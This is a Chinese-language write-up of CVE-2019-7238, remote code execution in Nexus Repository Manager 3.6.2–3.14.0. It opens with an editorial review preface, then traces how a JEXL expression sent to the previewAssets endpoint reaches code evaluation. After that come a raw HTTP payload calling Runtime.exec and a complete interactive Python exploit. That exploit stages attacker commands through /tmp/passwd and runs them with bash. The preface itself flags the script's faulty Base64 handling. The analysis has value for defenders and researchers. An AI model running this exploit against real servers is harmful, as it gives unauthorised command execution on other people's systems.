




## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：3.6.2–3.14.0，无修复段；asset和权限在源码checkAssetPermissions前置中体现

代码与实验材料：完整源码链和mpgn Python脚本；Linux多阶段写/tmp/passwd与pwn.txt、Base64斜杠替+损坏内容，total&gt;0不等于执行成功

来源证据范围：先知原分析、简书及mpgn原工具链接，较好

- **结论使用边界（1）**：脚本改Base64字符会改变命令；依据：command_str.replace('/', '+')不是等价编码，可能解码成错误字节。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（2）**：成功判据和多次执行风险；依据：result.total&gt;0只证明返回asset；逐asset表达式求值可多次执行，异步exec多步骤没有完成确认。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **事实待核（3）**：跨CVE图片及运行残留；依据：复现多图指10204资源；写/tmp/passwd、pwn.txt未清理，源码/说明简介为空。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2019-7238）Nexus Repository Manager 远程代码执行
======================================================

一、漏洞简介
------------

二、漏洞影响
------------

Nexus Repository Manager OSS/Pro 3.6.2 版本到 3.14.0 版本

三、复现过程
------------

### 漏洞分析

定位到如下位置
plugins/nexus-coreui-plugin/src/main/java/org/sonatype/nexus/coreui/ComponentComponent.groovy:185

    @Named
    @Singleton
    @DirectAction(action = 'coreui_Component')
    class ComponentComponent
        extends DirectComponentSupport
    {
        ...

        @DirectMethod
        @Timed
        @ExceptionMetered
        PagedResponse<AssetXO> previewAssets(final StoreLoadParameters parameters) {

            String repositoryName = parameters.getFilter('repositoryName')
            String expression = parameters.getFilter('expression')
            String type = parameters.getFilter('type')
            // 接收三个参数 repositoryName 、 expression 、 type

            if (!expression || !type || !repositoryName) {
            return null
            }

            // 设置 repositoryName
            RepositorySelector repositorySelector = RepositorySelector.fromSelector(repositoryName)

            // 根据 type 分别调用不同的 validate
            if (type == JexlSelector.TYPE) {
                jexlExpressionValidator.validate(expression)
            }
            else if (type == CselSelector.TYPE) {
                cselExpressionValidator.validate(expression)
            }

            List<Repository> selectedRepositories = getPreviewRepositories(repositorySelector)
            if (!selectedRepositories.size()) {
                return null
            }

            def result = browseService.previewAssets(
                repositorySelector,
                selectedRepositories,
                expression,
                toQueryOptions(parameters))
            return new PagedResponse<AssetXO>(
                result.total,
                result.results.collect(ASSET_CONVERTER.rcurry(null, null, [:], 0)) // buckets not needed for asset preview screen
            )
        } 
        ...
    }

Nexus为了查询方便，特地在jexl的基础上引入了csel表达式。简单起见，这里不做展开。接着我们跟入`browseService.previewAssets`，接口定义在
components/nexus-repository/src/main/java/org/sonatype/nexus/repository/browse/BrowseService.java:59

    /**
       * Returns a {@link BrowseResult} for previewing the specified repository based on an arbitrary content selector.
       */
      BrowseResult<Asset> previewAssets(final RepositorySelector selectedRepository,
                                        final List<Repository> repositories,
                                        final String jexlExpression,
                                        final QueryOptions queryOptions);

具体实现在
components/nexus-repository/src/main/java/org/sonatype/nexus/repository/browse/internal/BrowseServiceImpl.java:233

    @Named
    @Singleton
    public class BrowseServiceImpl
        extends ComponentSupport
        implements BrowseService
    {
      ...
      @Override
      public BrowseResult<Asset> previewAssets(final RepositorySelector repositorySelector,
                                              final List<Repository> repositories,
                                              final String jexlExpression,
                                              final QueryOptions queryOptions)
      {
        checkNotNull(repositories);
        checkNotNull(jexlExpression);
        final Repository repository = repositories.get(0);
        try (StorageTx storageTx = repository.facet(StorageFacet.class).txSupplier().get()) {
          storageTx.begin();
          List<Repository> previewRepositories;
          if (repositories.size() == 1 && groupType.equals(repository.getType())) {
            previewRepositories = repository.facet(GroupFacet.class).leafMembers();
          }
          else {
            previewRepositories = repositories;
          }

          PreviewAssetsSqlBuilder builder = new PreviewAssetsSqlBuilder(
              repositorySelector,
              jexlExpression,
              queryOptions,
              getRepoToContainedGroupMap(repositories));

          String whereClause = String.format("and (%s)", builder.buildWhereClause());

          //The whereClause is passed in as the querySuffix so that contentExpression will run after repository filtering
          return new BrowseResult<>(
              storageTx.countAssets(null, builder.buildSqlParams(), previewRepositories, whereClause),
              Lists.newArrayList(storageTx.findAssets(null, builder.buildSqlParams(),
                  previewRepositories, whereClause + builder.buildQuerySuffix()))
          );
        }
      }
      ...
    }

注意上面代码中的英文注释，大意为`whereClause`条件在完成`repository filtering`后将会进行`contentExpression`。而`whereClause`是通过前面一系列Builder构建的。可以跟入`builder.buildWhereClause()`，在
components/nexus-repository/src/main/java/org/sonatype/nexus/repository/browse/internal/PreviewAssetsSqlBuilder.java:51
， 这里最终引入了contentExpression和jexlExpression:

    public class PreviewAssetsSqlBuilder
    {
      ...
      public String buildWhereClause() {
        return whereClause("contentExpression(@this, :jexlExpression, :repositorySelector, " +
            ":repoToContainedGroupMap) == true", queryOptions.getFilter() != null);
      }
      ...
    }

接下来即考虑如何进一步执行`contentExpression`。在
components/nexus-repository/src/main/java/org/sonatype/nexus/repository/selector/internal/ContentExpressionFunction.java
。当`contentExpression`执行时，会调用`execute`方法：

    public class ContentExpressionFunction
        extends OSQLFunctionAbstract
    {
      public static final String NAME = "contentExpression";
      ...
      @Inject
      public ContentExpressionFunction(final VariableResolverAdapterManager variableResolverAdapterManager,
                                       final SelectorManager selectorManager,
                                       final ContentAuthHelper contentAuthHelper)
      {
        super(NAME, 4, 4);
        this.variableResolverAdapterManager = checkNotNull(variableResolverAdapterManager);
        this.selectorManager = checkNotNull(selectorManager);
        this.contentAuthHelper = checkNotNull(contentAuthHelper);
      }

      @Override
      public Object execute(final Object iThis,
                            final OIdentifiable iCurrentRecord,
                            final Object iCurrentResult,
                            final Object[] iParams,
                            final OCommandContext iContext)
      {
        OIdentifiable identifiable = (OIdentifiable) iParams[0];
        // asset 
        ODocument asset = identifiable.getRecord();
        RepositorySelector repositorySelector = RepositorySelector.fromSelector((String) iParams[2]);
        // jexlExpression 即 iParams[1]
        String jexlExpression = (String) iParams[1];
        List<String> membersForAuth;

        ...

        return contentAuthHelper.checkAssetPermissions(asset, membersForAuth.toArray(new String[membersForAuth.size()])) &&
            checkJexlExpression(asset, jexlExpression, asset.field(AssetEntityAdapter.P_FORMAT, String.class));
      }

其中的`iParams`即可对应传入的参数。`iParams[0]`即`@this` ,
`iParams[1]`即`jexlExpression`,
`iParams[2]`即`repositorySelector`。在完成初步筛选出`asset`后进入最后的`checkJexlExpression`

    ...
      private boolean checkJexlExpression(final ODocument asset,
                                          final String jexlExpression,
                                          final String format)
      {
        VariableResolverAdapter variableResolverAdapter = variableResolverAdapterManager.get(format);
        // variableSource 从 asset 中来
        VariableSource variableSource = variableResolverAdapter.fromDocument(asset);

        SelectorConfiguration selectorConfiguration = new SelectorConfiguration();

        selectorConfiguration.setAttributes(ImmutableMap.of("expression", jexlExpression));
        // JexlSelector.TYPE 是常量 定义为 'jexl'
        selectorConfiguration.setType(JexlSelector.TYPE);
        selectorConfiguration.setName("preview");

        try {
          // 解析表达式
          return selectorManager.evaluate(selectorConfiguration, variableSource);
        }
        catch (SelectorEvaluationException e) {
          log.debug("Unable to evaluate expression {}.", jexlExpression, e);
          return false;
        }
      }

    }

`selectorConfiguration`保存要生成的表达式config。`jexlExpression`即前面传入的参数。跟入`selectorManager.evaluate`，在
components/nexus-core/src/main/java/org/sonatype/nexus/internal/selector/SelectorManagerImpl.java:156
，最终执行了表达式

    @Override
      @Guarded(by = STARTED)
      public boolean evaluate(final SelectorConfiguration selectorConfiguration, final VariableSource variableSource)
          throws SelectorEvaluationException
      {
        // 根据传入的 selectorConfiguration 生成对应的 selector 
        // 前面指定了 JexlSelector.TYPE ，这里将生成 JexlSelector
        Selector selector = createSelector(selectorConfiguration);

        try {
          // 调用 selector 的 evaluate 方法
          return selector.evaluate(variableSource);
        }
        catch (Exception e) {
          throw new SelectorEvaluationException("Selector '" + selectorConfiguration.getName() + "' evaluation in error",
              e);
        }
      }

### 漏洞复现

参考官方文档：https://help.sonatype.com/repomanager3/configuration/repository-management\#RepositoryManagement-CreatingaQuery

其对应接口位置如下图NexusRepositoryManager远程代码执行/media/rId26.jpg)如果是新搭建的环境，为复现成功，还需要先往现有的Repository添加asset。这样在查询确实存在asset后，才会进一步根据`whereClause`对查询结果asset进行筛选，也才会对`whereClause`进行表达式解析。不过在实际环境中，Repository中早就各种asset了。下面随便选了一个logging.jar上传。NexusRepositoryManager远程代码执行/media/rId27.jpg)

    POST /service/extdirect HTTP/1.1
    Host:www.0-sec.org:8081
    User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
    Content-Type: application/json
    Content-Length: 308
    Connection: close

    {"action":"coreui_Component","method":"previewAssets","data":[{"page":1,"start":0,"limit":25,"filter":[{"property":"repositoryName","value":"*"},{"property":"expression","value":"''.class.forName('java.lang.Runtime').getRuntime().exec('calc.exe')"},{"property":"type","value":"jexl"}]}],"type":"rpc","tid":4}

NexusRepositoryManager远程代码执行/media/rId28.png)

### poc

    cve-2019-7238.py

NexusRepositoryManager远程代码执行/media/rId30.png)

    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    import urllib3
    import requests
    import base64
    import json
    import sys

    print("\nNexus Repository Manager 3 Remote Code Execution - CVE-2019-7238 \nFound by @Rico and @voidfyoo\n")

    proxy = {
    }

    remote = 'http://127.0.0.1:8081'

    ARCH="LINUX"
    # ARCH="WIN"

    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

    def checkSuccess(r):
        if r.status_code == 200:
            json_data = json.loads(r.text)
            if json_data['result']['total'] > 0:
                print("OK")
            else:
                print("KO")
                sys.exit()
        else:
            print("[-] Error status code", r.status_code)
            sys.exit()

    print("[+] Checking if Content-Selectors exist =>", end=' ')
    burp0_url = remote + "/service/extdirect"
    burp0_headers = {"Content-Type": "application/json"}
    burp0_json = {"action": "coreui_Component", "data": [{"filter": [{"property": "repositoryName", "value": "*"}, {"property": "expression", "value": "1==1"}, {
        "property": "type", "value": "jexl"}], "limit": 50, "page": 1, "sort": [{"direction": "ASC", "property": "name"}], "start": 0}], "method": "previewAssets", "tid": 18, "type": "rpc"}
    r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json,
                  proxies=proxy, verify=False, allow_redirects=False)
    checkSuccess(r)
    print("")

    while True:
        try:
            if ARCH == "LINUX":
                command = input("command (not reflected)> ")
                command = base64.b64encode(command.encode('utf-8'))
                command_str = command.decode('utf-8')
                command_str = command_str.replace('/', '+')

                print("[+] Copy file to temp directory =>", end=' ')

                burp0_url = remote + "/service/extdirect"
                burp0_headers = {"Content-Type": "application/json"}
                burp0_json = {"action": "coreui_Component", "data": [{"filter": [{"property": "repositoryName", "value": "*"}, {"property": "expression", "value": "1==0 or ''.class.forName('java.lang.Runtime').getRuntime().exec(\"cp /etc/passwd  /tmp/passwd\")"}, { "property": "type", "value": "jexl"}], "limit": 50, "page": 1, "sort": [{"direction": "ASC", "property": "name"}], "start": 0}], "method": "previewAssets", "tid": 18, "type": "rpc"}
                r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, proxies=proxy, verify=False, allow_redirects=False)
                checkSuccess(r)

                print("[+] Preparing temp file =>", end=' ')
                burp0_url = remote + "/service/extdirect"
                burp0_headers = {"Content-Type": "application/json"}
                burp0_json = {"action": "coreui_Component", "data": [{"filter": [{"property": "repositoryName", "value": "*"}, {"property": "expression", "value": "1==0 or ''.class.forName('java.lang.Runtime').getRuntime().exec(\"sed -i 1cpwn2  /tmp/passwd\")"}, {
                    "property": "type", "value": "jexl"}], "limit": 50, "page": 1, "sort": [{"direction": "ASC", "property": "name"}], "start": 0}], "method": "previewAssets", "tid": 18, "type": "rpc"}
                r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, proxies=proxy,
                            verify=False, allow_redirects=False)
                checkSuccess(r)

                print("[+] Cleaning temp file =>", end=' ')
                burp0_url = remote + "/service/extdirect"
                burp0_headers = {"Content-Type": "application/json"}
                burp0_json = {"action": "coreui_Component", "data": [{"filter": [{"property": "repositoryName", "value": "*"}, {"property": "expression", "value": "1==0 or ''.class.forName('java.lang.Runtime').getRuntime().exec(\"sed -i /[^pwn2]/d /tmp/passwd\")"}, {
                    "property": "type", "value": "jexl"}], "limit": 50, "page": 1, "sort": [{"direction": "ASC", "property": "name"}], "start": 0}], "method": "previewAssets", "tid": 18, "type": "rpc"}
                r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, proxies=proxy,
                                verify=False, allow_redirects=False)
                checkSuccess(r)

                print("[+] Writing command into temp file =>", end=' ')
                burp0_url = remote + "/service/extdirect"
                burp0_headers = {"Content-Type": "application/json"}
                burp0_json = {"action": "coreui_Component", "data": [{"filter": [{"property": "repositoryName", "value": "*"}, {"property": "expression", "value": "1==0 or ''.class.forName('java.lang.Runtime').getRuntime().exec(\"sed -i 1s/pwn2/{echo," + command_str + "}|{base64,-d}>pwn.txt/g /tmp/passwd\")"}, {
                    "property": "type", "value": "jexl"}], "limit": 50, "page": 1, "sort": [{"direction": "ASC", "property": "name"}], "start": 0}], "method": "previewAssets", "tid": 18, "type": "rpc"}
                r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, proxies=proxy,
                                verify=False, allow_redirects=False)
                checkSuccess(r)

                print("[+] Decode base64 command =>", end=' ')
                burp0_url = remote + "/service/extdirect"
                burp0_headers = {"Content-Type": "application/json"}
                burp0_json = {"action": "coreui_Component", "data": [{"filter": [{"property": "repositoryName", "value": "*"}, {"property": "expression", "value": "1==0 or ''.class.forName('java.lang.Runtime').getRuntime().exec(\"bash /tmp/passwd\")"}, {
                    "property": "type", "value": "jexl"}], "limit": 50, "page": 1, "sort": [{"direction": "ASC", "property": "name"}], "start": 0}], "method": "previewAssets", "tid": 18, "type": "rpc"}
                r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, proxies=proxy,
                                verify=False, allow_redirects=False)
                checkSuccess(r)

                print("[+] Executing command =>", end=' ')
                burp0_url = remote + "/service/extdirect"
                burp0_headers = {"Content-Type": "application/json"}
                burp0_json = {"action": "coreui_Component", "data": [{"filter": [{"property": "repositoryName", "value": "*"}, {"property": "expression", "value": "1==0 or ''.class.forName('java.lang.Runtime').getRuntime().exec(\"bash pwn.txt\")"}, {
                    "property": "type", "value": "jexl"}], "limit": 50, "page": 1, "sort": [{"direction": "ASC", "property": "name"}], "start": 0}], "method": "previewAssets", "tid": 18, "type": "rpc"}
                r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, proxies=proxy,
                                verify=False, allow_redirects=False)
                checkSuccess(r)
                print('')

            else:
                command = input("command (not reflected)> ")
                print("[+] Executing command =>", end=' ')
                burp0_url = remote + "/service/extdirect"
                burp0_headers = {"Content-Type": "application/json"}
                burp0_json = {"action": "coreui_Component", "data": [{"filter": [{"property": "repositoryName", "value": "*"}, {"property": "expression", "value": "1==0 or ''.class.forName('java.lang.Runtime').getRuntime().exec(\"" + command + "\")"}, {
                    "property": "type", "value": "jexl"}], "limit": 50, "page": 1, "sort": [{"direction": "ASC", "property": "name"}], "start": 0}], "method": "previewAssets", "tid": 18, "type": "rpc"}
                r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, proxies=proxy,
                                  verify=False, allow_redirects=False)
                checkSuccess(r)
                print('')

        except KeyboardInterrupt:
            print("Exiting...")
            break

参考链接
--------

> https://xz.aliyun.com/t/4136
>
> https://www.jianshu.com/p/34e450debe0f
>
> https://github.com/mpgn/CVE-2019-7238
